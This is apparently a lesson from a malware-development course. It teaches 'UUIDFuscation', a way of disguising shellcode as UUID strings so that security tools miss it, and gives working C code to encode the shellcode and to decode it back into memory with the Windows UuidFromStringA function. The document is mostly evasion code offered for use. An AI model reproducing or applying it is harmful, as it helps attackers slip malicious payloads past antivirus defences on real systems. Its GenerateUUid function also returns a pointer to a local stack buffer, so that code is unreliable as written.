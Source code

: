 # 3.1 Payload Obfuscation - UUIDFuscation

### Introduction

In this module, another obfuscation technique is covered which converts shellcode to a Universally Unique IDentifier (UUID) string. UUID is a 36-character alphanumeric string that can be used to identify information.

### UUID Structure

The UUID format is made up of 5 segments of different sizes which look something like this: `801B18F0-8320-4ADA-BB13-41EA1C886B87`. The image below illustrates the UUID structure.

![image](https://maldevacademy.s3.amazonaws.com/images/Basic/uuid.png)

Converting UUID to shellcode is a little less straightforward than the previous obfuscation methods. For example `FC 48 83 E4 F0 E8 C0 00 00 00 41 51 41 50 52 51` does **not** translate into `FC4883E4-F0E8-C000-0000-415141505251`, instead, it becomes `E48348FC-E8F0-00C0-0000-415141505251`.

Notice that the first 3 segments are using the same bytes in our shellcode but the order is in reverse. The reason is that the first three segments use [little-endian](https://en.wikipedia.org/wiki/Endianness) byte ordering. To ensure complete understanding, the segments are broken down below.

#### Little Endian

- Segment 1: `FC 48 83 E4` becomes `E4 83 48 FC` in the UUID string
    
- Segment 2: `F0 E8` becomes `E8 F0` in the UUID string
    
- Segment 3: `C0 00` becomes `00 C0` in the UUID string
    

#### Big Endian

- Segment 4: `00 00` becomes `00 00` in the UUID string
    
- Segment 5: `41 51 41 50 52 51` becomes `41 51 41 50 52 51` in the UUID string
    

### UUIDFuscation Implementation

A UUID address is made up of 16 bytes, therefore the shellcode should be a multiple of 16. UUIDFuscation will resemble IPv6Fuscation closely due to both requiring shellcode multiples of 16 bytes. Again, padding can be used if the shellcode doesn't meet that requirement.

```c
// Function takes in 16 raw bytes and returns them in a UUID string format
char* GenerateUUid(int a, int b, int c, int d, int e, int f, int g, int h, int i, int j, int k, int l, int m, int n, int o, int p) {

	// Each UUID segment is 32 bytes
	char Output0[32], Output1[32], Output2[32], Output3[32];

	// There are 4 segments in a UUID (32 * 4 = 128)
	char result[128];

	// Generating output0 from the first 4 bytes
	sprintf(Output0, "%0.2X%0.2X%0.2X%0.2X", d, c, b, a);

	// Generating output1 from the second 4 bytes
	sprintf(Output1, "%0.2X%0.2X-%0.2X%0.2X", f, e, h, g);

	// Generating output2 from the third 4 bytes
	sprintf(Output2, "%0.2X%0.2X-%0.2X%0.2X", i, j, k, l);

	// Generating output3 from the last 4 bytes
	sprintf(Output3, "%0.2X%0.2X%0.2X%0.2X", m, n, o, p);

	// Combining Output0,1,2,3 to generate the UUID
	sprintf(result, "%s-%s-%s%s", Output0, Output1, Output2, Output3);

	//printf("[i] result: %s\n", (char*)result);
	return (char*)result;
}



// Generate the UUID output representation of the shellcode
// Function requires a pointer or base address to the shellcode buffer & the size of the shellcode buffer
BOOL GenerateUuidOutput(unsigned char* pShellcode, SIZE_T ShellcodeSize) {
	// If the shellcode buffer is null or the size is not a multiple of 16, exit
	if (pShellcode == NULL || ShellcodeSize == NULL || ShellcodeSize % 16 != 0) {
		return FALSE;
	}
	printf("char* UuidArray[%d] = { \n\t", (int)(ShellcodeSize / 16));

	// We will read one shellcode byte at a time, when the total is 16, begin generating the UUID string
	// The variable 'c' is used to store the number of bytes read. By default, starts at 16.
	int c = 16, counter = 0;
	char* UUID = NULL;

	for (int i = 0; i < ShellcodeSize; i++) {
		// Track the number of bytes read and when they reach 16 we enter this if statement to begin generating the UUID string
		if (c == 16) {
			counter++;

			// Generating the UUID string from 16 bytes which begin at i until [i + 15]
			UUID = GenerateUUid(
				pShellcode[i], pShellcode[i + 1], pShellcode[i + 2], pShellcode[i + 3],
				pShellcode[i + 4], pShellcode[i + 5], pShellcode[i + 6], pShellcode[i + 7],
				pShellcode[i + 8], pShellcode[i + 9], pShellcode[i + 10], pShellcode[i + 11],
				pShellcode[i + 12], pShellcode[i + 13], pShellcode[i + 14], pShellcode[i + 15]
			);
			if (i == ShellcodeSize - 16) {

				// Printing the last UUID string
				printf("\"%s\"", UUID);
				break;
			}
			else {
				// Printing the UUID string
				printf("\"%s\", ", UUID);
			}
			c = 1;
			// Optional: To beautify the output on the console
			if (counter % 3 == 0) {
				printf("\n\t");
			}
		}
		else {
			c++;
		}
	}
	printf("\n};\n\n");
	return TRUE;
}
```

#### UUID Deobfuscation Implementation

Although different segments have different endianness, that will not affect the deobfuscation process because the [UuidFromStringA](https://learn.microsoft.com/en-us/windows/win32/api/rpcdce/nf-rpcdce-uuidfromstringa) WinAPI takes care of this.

```c

typedef RPC_STATUS (WINAPI* fnUuidFromStringA)(
	RPC_CSTR	StringUuid,
	UUID*		Uuid
);

BOOL UuidDeobfuscation(IN CHAR* UuidArray[], IN SIZE_T NmbrOfElements, OUT PBYTE* ppDAddress, OUT SIZE_T* pDSize) {

        PBYTE          pBuffer         = NULL,
                       TmpBuffer       = NULL;

        SIZE_T         sBuffSize       = NULL;

        RPC_STATUS     STATUS          = NULL;

	// Getting UuidFromStringA address from Rpcrt4.dll
	fnUuidFromStringA pUuidFromStringA = (fnUuidFromStringA)GetProcAddress(LoadLibrary(TEXT("RPCRT4")), "UuidFromStringA");
	if (pUuidFromStringA == NULL) {
		printf("[!] GetProcAddress Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	// Getting the real size of the shellcode which is the number of UUID strings * 16
	sBuffSize = NmbrOfElements * 16;

	// Allocating memory which will hold the deobfuscated shellcode
	pBuffer = (PBYTE)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, sBuffSize);
	if (pBuffer == NULL) {
		printf("[!] HeapAlloc Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	// Setting TmpBuffer to be equal to pBuffer
	TmpBuffer = pBuffer;

	// Loop through all the UUID strings saved in UuidArray
	for (int i = 0; i < NmbrOfElements; i++) {
		
		// Deobfuscating one UUID string at a time
		// UuidArray[i] is a single UUID string from the array UuidArray
		if ((STATUS = pUuidFromStringA((RPC_CSTR)UuidArray[i], (UUID*)TmpBuffer)) != RPC_S_OK) {
			// if it failed
			printf("[!] UuidFromStringA Failed At [%s] With Error 0x%0.8X", UuidArray[i], STATUS);
			return FALSE;
		}

		// 16 bytes are written to TmpBuffer at a time
		// Therefore Tmpbuffer will be incremented by 16 to store the upcoming 16 bytes
		TmpBuffer = (PBYTE)(TmpBuffer + 16);

	}

	*ppDAddress = pBuffer;
	*pDSize     = sBuffSize;

	return TRUE;
}
```

The image below shows the deobfuscation process successfully running.

![image](https://maldevacademy.s3.amazonaws.com/images/Basic/uuidfuscation.png)